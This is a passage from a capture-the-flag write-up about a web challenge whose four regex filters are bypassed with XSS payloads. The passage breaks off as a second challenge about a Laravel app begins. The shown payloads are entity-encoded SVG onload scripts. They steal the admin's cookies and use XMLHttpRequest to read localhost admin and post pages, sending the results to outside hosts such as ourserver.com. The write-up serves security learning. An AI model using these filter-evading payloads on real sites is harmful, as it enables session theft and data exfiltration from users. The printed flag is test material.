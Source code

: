 Okay, so we have to satisfy a certain regexp in our payload. But as soon as we manage to pass through it, another one comes up. In total, there are four regexps that need to be bypassed:

```
/<[^\w<>]*[ \/]\w*/i 
/<(|\/|[^\/>][^>]+|\/[^>][^>]+)>/i
/["'\(\)\.:\-\+> `]/i
/(\b)(on\S{5,8})(\s*)=|(<\s*)(\/*)script/im 
```

After some groping around and reflexion, we manage to find a payload which passes all the filters and does trigger an alert:

```
<svg/onload=alert&lpar;1&rpar;//
```

We then manage to craft a payload to retrieve the admin's cookies:

```!
<svg/onload=document&period;location=&DiacriticalGrave;//ourserver&period;com/?&DiacriticalGrave;&plus;document&period;cookie;//
```

We are greeted with a PHPSESSID but... no flag on the admin page. We also try to exfiltrate the local storage or check out headers, but still nothing.

This must mean the admin can see things only they can see *locally*. Let's try to craft a payload which allows us to exfiltrate the content of a page of the site, as seen by the admin:

```!
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=admin&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//ourserver&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

Good, we are able to retrieve the contents of the admin page, but... still no flag. It took us longer than expected, but we eventually understood we had to exfiltrate the blog post that had the id 1:

```!
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=post&id&equals;1&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//truc&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

...which contains the flag! `CTF{3B3E64A81963B5E3FAC7DE0CE63966F03559DAF4B61753AADBFBA76855DB5E5A}`


## syntax check (web)

In this challenge, we were given a web application and we were told `The flag is in /var/www/html/flag`.

The website only consists of a "Parse" button, which redirects to `/parse?<foo>hi%21<%2Ffoo>=&_token=40rzOC3O8ZiBDeNKTGIcgRtxT5uBgMJb0jpBMdq8`, and which only outputs `"Empty string supplied as input."`. Checking out the source of the page, we understand this is a Laravel error dump.
